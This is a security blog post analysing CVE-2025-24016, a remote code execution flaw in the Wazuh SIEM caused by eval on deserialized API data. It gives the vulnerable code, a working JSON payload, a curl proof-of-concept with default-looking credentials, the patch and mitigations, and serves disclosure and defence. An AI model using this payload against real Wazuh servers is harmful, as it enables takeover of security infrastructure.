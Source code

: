 ```yaml
---
id: 2
title: "CVE-2025-24016: Unsafe Deserialization in Wazuh – RCE"
date: "March 27, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/blog_post_2_2.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-24016](/assets/img/blog/blog_post_2_2.png)
# CVE-2025-24016: Unsafe Deserialization in Wazuh – RCE

![Banner](banner.png)

## Description
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016, which enables attackers to execute arbitrary code remotely on their servers.

Attackers who have API access can execute arbitrary Python commands on vulnerable servers through this vulnerability, which exists from version 4.4.0 up to 4.9.0. The `as_wazuh_object` function processes DistributedAPI (DAPI) request or response data that makes the vulnerability active. The vulnerability enables attackers to execute arbitrary Python code, resulting in system takeover, data breaches, and complete security damage to infrastructure.

The safe `ast.literal_eval` function change in version 4.9.1 enables vulnerability protection.

## Technical Breakdown

- **Affected Software:** Wazuh  
- **Affected Versions:** 4.4.0 to 4.9.0  
- **CVSSv3.1 Score:** 9.9 (Critical)  
- **CVSSv3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H`  
- **Affected Component:** `framework/wazuh/core/cluster/common.py`  
- **Attack Vector:** Network  
- **Privileges Required:** Low (API Access)  
- **User Interaction:** None  
- **Scope:** Changed  

The security problem resides inside the `as_wazuh_object` function within `framework/wazuh/core/cluster/common.py`. DAPI data serialization occurs through this function to process JSON data used for communication between Wazuh API, manager, and agents.

### Vulnerable Code
```python
def as_wazuh_object(dct: Dict):
    try:
        if '__wazuh_datetime__' in dct:
            return datetime.datetime.fromisoformat(dct['__wazuh_datetime__'])
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
            return eval(exc_data['__class__'])(*exc_data['__args__']) # 🚨 VULNERABLE 🚨
        return dct
    except (KeyError, AttributeError):
        return dct
```

The code checks if the dictionary `dct` contains the key `__unhandled_exc__`. A valid dictionary value for `__unhandled_exc__` enables the code to obtain class and args values before implementing `eval` to create an instance of `__class__` with arguments `__args__`. Evaluating untrusted data means exposing the system to severe Python code execution since attackers control it.

## Affected Component Analysis
CVE-2025-24016 occurs because `eval` operates on every data string received from the Distributed API for serialization. Python’s evaluation functions enable arbitrary program execution, creating a major security threat.

### Exploitation Example
An attacker can send the following JSON payload:
```json
{
    "__unhandled_exc__": {
        "__class__": "os.system",
        "__args__": ["touch /tmp/pwn.txt"]
    }
}
```
The execution of `eval` within `as_wazuh_object` produces a system call of `os.system("touch /tmp/pwn.txt")`, leading to the creation of a file named `/tmp/pwn.txt` on the Wazuh server.

### Proof-of-Concept (PoC) Exploit
```sh
curl -X POST -k -u "wazuh-wui:MyS3cr37P450r.*-" -H "Content-Type: application/json" \  
--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}' \  
https://<worker-server>:55000/security/user/authenticate/run_as
```

### Attack Capabilities
- **Full system control** – Attackers can install malware, modify configurations, or exfiltrate sensitive data.
- **Lateral movement** – The compromised Wazuh server can be used for spreading across networks.
- **Monitoring disruption** – Security alerts can be disabled, allowing attackers to operate undetected.

## Patch Analysis
Wazuh resolved this vulnerability in version 4.9.1 by replacing `eval` with `ast.literal_eval`, which securely evaluates literals without allowing arbitrary code execution.

### Fixed Code
```python
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
-            return eval(exc_data['__class__'])(*exc_data['__args__'])
+            exc_dict = {exc_data['__class__']: exc_data['__args__']}
+            return ast.literal_eval(json.dumps(exc_dict))
        return dct
```
The patch mitigates the vulnerability by replacing the unsafe `eval` function with `ast.literal_eval`. Unlike `eval`, `ast.literal_eval` only processes Python literals, eliminating arbitrary code execution risks.

## Mitigation Strategies
To reduce the risk associated with this vulnerability, organizations should implement the following security measures:

- **Upgrade to Wazuh 4.9.1 or later** – This version includes the necessary patch to fix the vulnerability.
- **Restrict API access** – Limit API usage to only authorized users and trusted systems.
- **Temporary workarounds** – Deploy Web Application Firewalls (WAFs) to block requests containing `__unhandled_exc__`.
- **Monitor API traffic** – Continuously track API activity for unusual behavior, such as unexpected requests or large data transfers.
- **Regularly update security configurations** – Ensure that Wazuh security settings are current and properly configured.

## References
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-24016)
- [GitHub Advisory](https://github.com/wazuh/wazuh/security/advisories/GHSA-hcrc-79hj-m3qh)
- [GitHub Repository (PoC)](https://github.com/0xjessie21/CVE-2025-24016)
- [SonicWall Blog](https://www.sonicwall.com/blog/critical-wazuh-rce-vulnerability-cve-2025-24016-risks-exploits-and-remediation)
- [SecurityOnline.info](https://securityonline.info/cve-2025-24016-cvss-9-9-critical-rce-vulnerability-discovered-in-wazuh-server/)
- [Recorded Future](https://www.recordedfuture.com/vulnerability-database/CVE-2025-24016)

